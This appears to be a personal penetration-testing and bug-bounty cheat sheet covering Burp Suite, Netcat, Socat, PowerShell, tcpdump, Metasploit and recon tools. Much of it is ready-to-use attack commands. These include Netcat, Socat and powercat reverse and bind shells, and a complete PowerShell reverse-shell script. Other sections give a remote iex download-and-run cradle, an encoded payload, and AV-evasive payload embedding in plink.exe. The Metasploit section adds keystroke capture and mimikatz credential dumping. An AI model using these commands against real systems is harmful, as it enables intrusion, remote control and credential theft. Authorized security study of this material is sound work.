

# Tools

## Index

- [EasyG](#easyg)
- [Burp Suite](#burp-suite)
- [Netcat](#netcat)
- [Socat](#socat)
- [PowerShell](#powershell)
- [WireShark](#wireshark)
- [Tcpdump](#tcpdump)
- [Bash scripting](#bash-scripting)
- [Metasploit Framework](#metasploit-framework)
- [Others](#others)

## EasyG

<em>Old GIF but still cool</em>

[EasyG](../scripts/) is a tailor-made script to assist me with various tasks in bug bounty hunting. Setting up every tool and configuration can be a hassle, so I don't recommend using it as-is. However, I hope it provides you with some new ideas to implement in your own process.

To give you (and myself) an idea on how it works, I've made this graphic:



## Burp Suite

- Advanced Scope regular expressions
  ```
  ^(.*\.)?test\.com$            add a domain + subdomains
  ^fd\d+-sub\.test\.com$        to capture domains like "fd1-sub.test.com", "fd2-sub.test.com", and so on
  ```
- To add a new header
  ```
  1. Go to Proxy -> Options -> Match and Replace -> Add
  2. Change Type to Request Header
  3. As the default text says in Match 'leave blank to add a new header'
  4. Put the new header in Replace
  ```
- Analyze better the results from Intruder with Settings > "Grep - Extract"
  - Manually select in the response the value that you want to track in a new column in the results
- [To fix visual glitches](https://forum.portswigger.net/thread/visual-glitches-within-burp-on-secondary-screen-390bebb0)


**Cool extensions**

- [Upload Scanner](https://portswigger.net/bappstore/b2244cbb6953442cb3c82fa0a0d908fa)
- [BurpJSLinkFinder](https://github.com/InitRoot/BurpJSLinkFinder)
- [JS Miner](https://portswigger.net/bappstore/0ab7a94d8e11449daaf0fb387431225b)
- [403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)
- [Autorize](https://github.com/PortSwigger/autorize)
- [Anonymous Cloud](https://portswigger.net/bappstore/ea60f107b25d44ddb59c1aee3786c6a1)
- [Software Version Reporter](https://portswigger.net/bappstore/ae62baff8fa24150991bad5eaf6d4d38)
- [Software Vulnerability Scanner](https://portswigger.net/bappstore/c9fb79369b56407792a7104e3c4352fb)
- [IP Rotate](https://portswigger.net/bappstore/2eb2b1cb1cf34cc79cda36f0f9019874)
- [Active Scan++](https://portswigger.net/bappstore/3123d5b5f25c4128894d97ea1acc4976)
- [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
- [InQL](https://portswigger.net/bappstore/296e9a0730384be4b2fffef7b4e19b1f)
- [Wsdler](https://github.com/NetSPI/Wsdler)
- [Swagger-EZ](https://github.com/RhinoSecurityLabs/Swagger-EZ)
- [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)
- [Turbo Intruder](https://github.com/PortSwigger/turbo-intruder)
- [HTTP Request Smuggler](https://github.com/PortSwigger/http-request-smuggler)
- [BurpCustomizer](https://github.com/CoreyD97/BurpCustomizer)
- [Burp Bounty](https://burpbounty.net/)

**Browser extensions**
- [Trufflehog Chrome Extension](https://github.com/trufflesecurity/Trufflehog-Chrome-Extension)
- [Wappalyzer](https://www.wappalyzer.com/)
- [DotGit](https://github.com/davtur19/DotGit)
- [Cookie-Editor](https://cookie-editor.cgagnier.ca/)
- [Shodan for Chrome](https://chrome.google.com/webstore/detail/shodan/jjalcfnidlmpjhdfepjhjbhnhkbgleap) and [for Firefox](https://addons.mozilla.org/en-US/firefox/addon/shodan_io/)
- If you are using FireFox, you could use [FoxyProxy](https://getfoxyproxy.org/)


## Netcat

**Misc Commands**
```
nc -nv <IP> <port>                                                       Connect to a TCP port
nc -nlvp <port>                                                          Set up a listener
nc -nv <IP> <port>                                                       Connect to a listener
nc -nlvp <port> > incoming.exe                                           Receive a file
nc -nv <IP> <port> < /usr/share/windows-resources/binaries/wget.exe      Transfer a file
nc -nlvp <port> -e cmd.exe                                               Set up a bind shell
nc -nv <IP> <port> -e /bin/bash                                          Send a reverse shell
```

**Port Scanning**
```
nc -nvv -w 1 -z <IP> <PORT-RANGE>                        Use netcat to perform a TCP port scan
nc -nv -u -z -w 1 <IP> <PORT-RANGE>                      Use netcat to perform an UDP port scan
```

## Socat

**Misc Commands**
```
socat - TCP4:<remote server's ip address>:80                                    Connect to a remote server on port 80
socat TCP4-LISTEN:<PORT> STDOUT                                                 Create a listener
socat -d -d TCP4-LISTEN:<PORT> STDOUT                                           Create a listener, -d -d for more verbosity
socat TCP4-LISTEN:<PORT>,fork file:secret.txt                                   Transfer a file
socat TCP4:<IP>:<PORT> file:received_secret.txt,create                          Receive a file
socat TCP4:<IP>:<PORT> EXEC:/bin/bash                                           Send a reverse shell
socat OPENSSL-LISTEN:<PORT>,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash    Create an encrypted bind shell
socat - OPENSSL:<IP>:<PORT>,verify=0                                            Connect to an encrypted bind shell
```

**Reverse Shell**
```
socat -d -d TCP4-LISTEN:<PORT> STDOUT                                     User 1, create a listener
socat TCP4:<IP>:<PORT> EXEC:/bin/bash                                     User 2, send reverse shell to User 1
```

**Encrypted bind shell with OpenSSL**
```
$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 365 -out bind_shell.crt

  req: initiate a new certificate signing request
  -newkey: generate a new private key
  rsa:2048: use RSA encryption with a 2,048-bit key length.
  -nodes: store the private key without passphrase protection
  -keyout: save the key to a file
  -x509: output a self-signed certificate instead of a certificate request
  -days: set validity period in days
  -out: save the certificate to a file

$ cat bind_shell.key bind_shell.crt > bind_shell.pem
$ sudo socat OPENSSL-LISTEN:<PORT>,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash    Create an encrypted bind shell
$ socat - OPENSSL:<IP>:<PORT>,verify=0                                                 Connect to the encrypted bind shell
```

## PowerShell

**Misc Commands**
```PowerShell
Set-ExecutionPolicy Unrestricted                                                                        Set the PowerShell execution policy
Get-ExecutionPolicy                                                                                     Get value for ExecutionPolicy
(new-object System.Net.WebClient).DownloadFile('http://<IP>/<filename>','C:\<DIR>\<filename>')          Download a file
iwr -uri http://<IP>/<filename> -Outfile <filename>                                                     Download a file
powershell -c "command"                                                                                 The -c option will execute the supplied command as if it were typed at the PowerShell prompt
```

**Encode PowerShell from the command line**
- ```PowerShell
  echo "iex(cmd)" | iconv -t UTF-16LE | base64 -w 0 | xclip -sel clip
  ```
  - [[Reference](https://twitter.com/whitecyberduck/status/1660095924931010560?s=46)]

**Send a reverse shell with PowerShell**
- ```PowerShell
  powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```
- ```PowerShell
  $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);
  $stream = $client.GetStream();
  [byte[]]$bytes = 0..65535|%{0};
  while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  	$sendback = (iex $data 2>&1 | Out-String );
  	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  	$stream.Write($sendbyte,0,$sendbyte.Length);
  	$stream.Flush();
  }
  $client.Close();
  ```

**Set up a bind shell with PowerShell**
```PowerShell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeNameSystem.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

**Powercat**

Script: [powercat.ps1](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1).

```PowerShell
powercat -c <IP> -p <PORT> -i C:\<DIR>\powercat.ps1                     Send a file
powercat -c <IP> -p <PORT> -e cmd.exe                                   Send a reverse shell
powercat -l -p 443 -e cmd.exe                                           Set up a bind shell; -l option to create a listener, -p to specify the listening port number, -e to have an application executed once connected
powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1             Create a stand-alone payload
powercat -c <IP> -p <PORT> -e cmd.exe -ge > encodedreverseshell.ps1     Create an encoded stand-alone payload with powercat
```

**Load a remote PowerShell script using iex**
```PowerShell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

**Execute an encoded stand-alone payload using PowerShell**
```PowerShell
powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHI...
```

**Upload a file to an FTP server**
```PowerShell
$ftpRequest = [System.Net.FtpWebRequest]::Create("ftp://<IP>:<PORT>/<FILE_TO_UPLOAD>"); $ftpRequest.Credentials = New-Object System.Net.NetworkCredential("<USERNAME>", "<PASSWORD>"); $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile; $fileContents = [System.IO.File]::ReadAllBytes((Resolve-Path "<FILE_TO_UPLOAD>")); $ftpRequest.ContentLength = $fileContents.Length; $requestStream = $ftpRequest.GetRequestStream(); $requestStream.Write($fileContents, 0, $fileContents.Length); $requestStream.Close(); $response = $ftpRequest.GetResponse(); $response.Close()
```
- Change `<IP>`, `<PORT>`, `<FILE_TO_UPLOAD>`, `<USERNAME>`, `<PASSWORD>`


## WireShark

**Filters**
- `net 10.10.1.0/24`, capture traffic only on the `10.10.1.0/24` address range

**Display filters**
- `tcp.port == 21`, only display FTP data

**Misc operations**
- Follow TCP stream: `Right-click` > `Follow` > `TCP Stream`

- [Display Filter Reference](https://www.wireshark.org/docs/dfref/)
- [Wireshark User’s Guide](https://www.wireshark.org/docs/wsug_html_chunked/)


## Tcpdump

```
tcpdump -r packets.pcap                                                           Read packet capture
tcpdump -n -r packets.pcap | awk -F" " '{print $3}' | sort | uniq -c | head       Read and filter the packet capture;
                                                                                  -n option to skip DNS name lookups, -r to read from our packet capture file
                                                                                  awk to print the destination IP address and port, sort and uniq -c to sort and count the number of times the field appears in the capture, respectively, head to only display the first 10 lines of the output
tcpdump -n src host <IP> -r packets.pcap                                          Tcpdump filters; src host to output only source traffic
tcpdump -n dst host <IP> -r packets.pcap                                          Tcpdump filters; dst host to output only destination traffic
tcpdump -n port <PORT> -r packets.pcap                                            Tcpdump filters; filter by port number
tcpdump -nX -r packets.pcap                                                       -X to print packet data in both HEX and ASCII format
```

**Advanced Header Filtering: display only the data packets**

1. Look for packets that have the `PSH` and `ACK` flags turned on
   - The `ACK` flag will be set for all packets sent and received after the initial 3-way handshake
   - In interactive Application Layer protocols, the `PSH` flag is frequently used to guarantee rapid delivery of a packet and prevent buffering.
2. TCP flags are defined starting from the 14th byte
   - `ACK` and `PSH` are represented by the fourth and fifth bits of the 14th byte
   - Turning on these bits would result in `00011000` = `24` in decimal, verify it with `echo "$((2#00011000))"`
3. To display packets that have the ACK or PSH flags set: `sudo tcpdump -A -n 'tcp[13] = 24' -r packets.pcap`


## Bash scripting

- Grep all the subdomains for `target.com` from `index.html`: `grep -o '[^/]*\.target\.com' index.html | sort -u > list.txt`
- Get the IPs from list.txt: `for url in $(cat list.txt); do host $url; done | grep "has address" | cut -d " " -f 4 | sort -u`


## Metasploit Framework

See: [The Metasploit Framework](https://www.metasploit.com/)

### Starting Metasploit

```
sudo systemctl start postgresql                                start postgresql manually
sudo systemctl enable postgresql                               start postgresql at boot
sudo msfdb init                                                create the Metasploit database
sudo apt update; sudo apt install metasploit-framework         update the Metasploit Framework
sudo msfconsole -q                                             start the Metasploit Framework
```


### MSF Syntax

```
show -h                                  help flag
show auxiliary                           list all auxiliary modules
search type:auxiliary name:smb           search for SMB auxiliary modules
back                                     move out of the current context and return to the main msf5 prompt
previous                                 switch us back to the previously selected module
services                                 display the metasploit database logs; -p: filter by port number; -s: service name; -h: help command
hosts                                    show discovered hosts
db_nmap <IP> -A -Pn                      performing a Nmap scan from within Metasploit
workspace                                list workspaces; -a: add a workspace, -d: delete a workspace
sessions -l                              list all sessions; -i: to interact with a session
transport list                           list the currently available transports for the meterpreter connection
```

To interact with a module
- `info` request more info about the module
- `show options` most modules require options
- Use `set` and `unset` to configure the options
- Use `setg` and `unsetg` to configure global options
- `show payloads` list all payloads that are compatible with the current exploit module
- `check` check if the target is vulnerable
- `run` or `exploit` to run the exploit
  - `-j` use as background job
  - `jobs` list background jobs
  - `kill` kill job


### Exploit Modules

### Staged vs Non-Staged Payloads

- `windows/shell_reverse_tcp` - Connect back to attacker and spawn a command shell
- `windows/shell/reverse_tcp` - Connect back to attacker, Spawn cmd shell (staged)
  - Useful, for example, if the vulnerability you need to exploit doesn't have enough buffer space to hold a full payload

### Meterpreter

- `upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\tidus`
- `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`
- `shell` get the shell

### Other notes

- `generate -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe` embedding the payload in plink.exe from within msfconsole
- Use the framework `multi/handler` to catch standard reverse shells
  - Works for all single and multi-stage payloads
  - Specify the incoming payload type

### Post-Exploitation

```
screenshot                take a screenshot of the compromised host desktop
keyscan_start             start the keystroke sniffer
keyscan_dump              dump captured keystrokes
keyscan_stop              stop the keystroke sniffer
```

**Migrate your meterpreter process**
- `ps` view all running processes and then pick one
- `migrate <PID>` migrate the process to a target PID

**Use mimikatz from meterpreter**
- `load kiwi` run the extension kiwi
- `getsystem` acquire SYSTEM privileges
- `creds_msv` dump the system credentials

**Port forwarding**
- `meterpreter> portfwd -h`
  - Example `portfwd add -l 3389 -p 3389 -r 192.168.1.121`


## Others

**For a temporary server**
- `python -m SimpleHTTPServer 7331`
- `python3 -m http.server 7331`
- `php -S 0.0.0.0:8000`
- `ruby -run -e httpd . -p 9000`
- `busybox httpd -f -p 10000`

**For a temporary public server**
- [XAMPP](https://www.apachefriends.org/) + [ngrok](https://ngrok.com/)
- [beeceptor](https://beeceptor.com/)

**For a temporary FTP server**
- Host: `python -m pyftpdlib -w`
- Client:
  ```
  ftp
  open <IP> 2121
  anonymous
  
  ```

**For auths**
- [textverified.com](https://www.textverified.com/) for auths requiring a phone number
- [quackr](https://quackr.io/) for a fake phone number (free)
- [temp-mail.org](https://temp-mail.org/en/)

**To find parameters**
- [Arjun](https://github.com/s0md3v/Arjun) detection of the parameters present in the application
- [ParamSpider](https://github.com/devanshbatham/ParamSpider)

**Asset enumeration/discovery**
- [amass](https://github.com/OWASP/Amass)
  - `amass enum -brute -active -d target -o output/target.txt -v` 
- [subfinder](https://github.com/projectdiscovery/subfinder)
  - `subfinder -d target -all -o output/target_subfinder.txt"`
- [github-subdomains](https://github.com/gwen001/github-subdomains)
- [bgp.he.net](https://bgp.he.net/) to find ASN + `amass intel -asn <ASN>`
- [crt.sh](https://crt.sh/)
  - [Crtsh-Fetcher](https://github.com/m0pam/crtsh-fetcher)
  - To find new domains ` cat json.txt | jq -r '.[].common_name' | sed 's/\*//g' | sort -u | rev | cut -d "." -f 1,2 | rev | sort -u | tee out.txt`
- [gobuster](https://github.com/OJ/gobuster) + [all.txt by jhaddix](https://gist.github.com/jhaddix/86a06c5dc309d08580a018c66354a056)
- [dnsx](https://github.com/projectdiscovery/dnsx)
  - Reverse DNS lookup `cat ip.txt | dnsx -ptr -resp-only` 
- [VhostScan](https://github.com/codingo/VHostScan) to discover virtual hosts
- [gip](https://github.com/dalance/gip) a command-line tool and Rust library to check global IP address.
- [anew](https://github.com/tomnomnom/anew) to add only new subdomains
- [httpx](https://github.com/projectdiscovery/httpx)
  - `type scope.txt | httpx -sc -mc 404` find `404` pages
- [urless](https://github.com/xnl-h4ck3r/urless)
- [hakcheckurl](https://github.com/hakluke/hakcheckurl)
  - `python3 urless.py -i urls.txt | hakcheckurl | grep -v 404`


**Exploits**
- [SearchSploit](https://www.exploit-db.com/searchsploit)
  - `searchsploit afd windows -w -t`; `-w` to return the URL for https://www.exploitdb.com, `-t` to search the exploit title
- [Packet Storm](https://packetstormsecurity.com)
- [BugTraq](https://bugtraq.securityfocus.com/archive)
- [National Vulnerability Database](https://nvd.nist.gov/)
- [Browser Exploitation Framework (BeEF)](https://beefproject.com/)
- [PoC in GitHub](https://github.com/nomi-sec/PoC-in-GitHub)


**For Reporting**
- [Vulnerability Rating Taxonomy](https://bugcrowd.com/vulnerability-rating-taxonomy)
- [CVSS Calculator](https://www.first.org/cvss/calculator/3.1)
- [PwnDoc](https://github.com/pwndoc/pwndoc)
- [Vulnrepo](https://vulnrepo.com/home)
- [PlexTrac](https://plextrac.com/)
- [Offensive Security Exam Report Template in Markdown](https://github.com/noraj/OSCP-Exam-Report-Template-Markdown)


**Misc tools**
- [URL Decoder/Encoder](https://meyerweb.com/eric/tools/dencoder/)
- [base64encode.org](https://www.base64encode.org/)
- [Down or not](https://www.websiteplanet.com/webtools/down-or-not/)
- [DigitalOcean](https://www.digitalocean.com/) See [Setting Up Your Ubuntu Box for Pentest and Bug Bounty Automation](https://www.youtube.com/watch?v=YhUiAH5SIqk)
- [Exploit Database](https://www.exploit-db.com/)
- [USB Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky)
- [Flipper Zero](https://flipperzero.one/)
- [Create a random text file](https://onlinefiletools.com/generate-random-text-file)
- [BruteSpray](https://github.com/x90skysn3k/brutespray) `python brutespray.py --file nmap.xml --threads 5 --hosts 5`
- [BadSecrets](https://github.com/blacklanternsecurity/badsecrets) a library and command line tool for finding secrets
- [Proxyman](https://proxyman.io/) to view requests from the app on your computer
- [filesec.io](https://filesec.io/)
- [malapi.io](https://malapi.io/)
- [lots-project.com](https://lots-project.com/)
- [lolbas-project.github.io](https://lolbas-project.github.io/)
- [gtfobins.github.io](https://gtfobins.github.io/)
- [loldrivers.io](https://www.loldrivers.io/)
- [WAF Bypass Tool](https://github.com/nemesida-waf/waf-bypass)
- [Forensia](https://github.com/PaulNorman01/Forensia)
- [peepdf - PDF Analysis Tool](https://eternal-todo.com/tools/peepdf-pdf-analysis-tool)
- [hakoriginfinder](https://github.com/hakluke/hakoriginfinder) for discovering the origin host behind a reverse proxy
- [ISTanCo IST - Domain Registration](https://cp.istanco.net/) to buy a short domain
- [pentesting-osTicket](https://github.com/Legoclones/pentesting-osTicket)
- [wafw00f](https://github.com/EnableSecurity/wafw00f) to identify WAFs
